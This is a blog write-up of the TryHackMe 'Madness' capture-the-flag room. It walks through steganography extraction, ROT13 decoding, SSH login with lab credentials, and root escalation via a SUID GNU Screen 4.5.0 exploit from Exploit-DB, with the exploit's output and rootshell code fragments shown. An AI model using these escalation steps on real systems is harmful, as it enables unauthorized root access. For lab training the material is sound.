 ```yaml
---
title: "Madness - TryHackMe"
author: Ludovic COULON
date: 2020-05-15
hero: ./images/hero.png
excerpt: "Writeup for the Madness room on TryHackMe"
---
```


[TryHackMe | Madness](https://tryhackme.com/room/madness)

![https://i.imgur.com/5iW7kC8.jpg](https://i.imgur.com/5iW7kC8.jpg)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

This room is part of the Turmoil series

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.52.214
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### #1 user.txt

<div className="Image__Small">
  <img src="https://imgur.com/41PScB3.png" alt="blog_image" />
</div>

On the website in the source code we can see "They will never find me" let's wget the image and search if there is anything in there.

Once you open the image an error will show up, we need to convert the header image to a jpg file

<div className="Image__Small">
  <img src="https://imgur.com/zdz5gC1.png" alt="blog_image" />
</div>

```bash
change the first line to this
```

<div className="Image__Small">
  <img src="https://imgur.com/PklK0ei.png" alt="blog_image" />
</div>

Save the hex file and open the image to seethe result !

<div className="Image__Small">
  <img src="https://imgur.com/GrcsvaS.png" alt="blog_image" />
</div>

Nice we have a hidden directory !

<div className="Image__Small">
  <img src="https://imgur.com/01jTS9C.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/9D3EgD5.png" alt="blog_image" />
</div>

Now we have plainly of possibility to resolve this puzzle I've choose the simpler one

I created a list with python

```bash
>>> range(100)
[0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99]
```

Then a imported this list in burp suite and I started the attack !

<div className="Image__Medium">
  <img src="https://imgur.com/ABpS7HJ.png" alt="blog_image" />
</div>

Now we can extract some files on the "thm.jpg" image from the apache website.

```bash
➜  TryHackMe steghide extract -sf thm.jpg
Enter passphrase:
the file "hidden.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "hidden.txt".

➜  TryHackMe cat hidden.txt
Fine you found the password!

Here's a username

wbxre

I didn't say I would make it easy for you!
```

After reading the hint given by TryHackMe

```bash
There's something ROTten about this guys name!
```

I tried to decode the username using the ROT13 algo

<div className="Image__Medium">
  <img src="https://imgur.com/Qn5keAi.png" alt="blog_image" />
</div>

And it worked !! Let's ssh the server now with the username and password

```bash
ssh joker@ip
password : y2RPJ4QaPF!B
```

Aaaannd it's not working for some reason.. After some time I tried the image on the room

<div className="Image__Small">
  <img src="https://imgur.com/P13mnW4.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe steghide extract -sf 5iW7kC8.jpg
Enter passphrase:
the file "password.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "password.txt".

➜  TryHackMe cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

"*axA&GF8dP"
```

```bash
➜  TryHackMe ssh joker@10.10.52.214
joker@10.10.52.214's password: "*axA&GF8dP"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Thu May 14 15:00:54 2020 from 10.9.2.228
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

### #2 root.txt

Now let's get a root access ! :D

```bash
joker@ubuntu:~$ sudo -l
[sudo] password for joker:
Sorry, user joker may not run sudo on ubuntu.
# Nothing to do with sudo :/
```

```bash
joker@ubuntu:~$ find /bin -perm -4000
/bin/fusermount
/bin/su
/bin/ping6
"/bin/screen-4.5.0"
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$
```

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/41154)

```bash
joker@ubuntu:~$ bash s.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

$ id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
$ cd /root/
$ ls
root.txt
$ cat root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
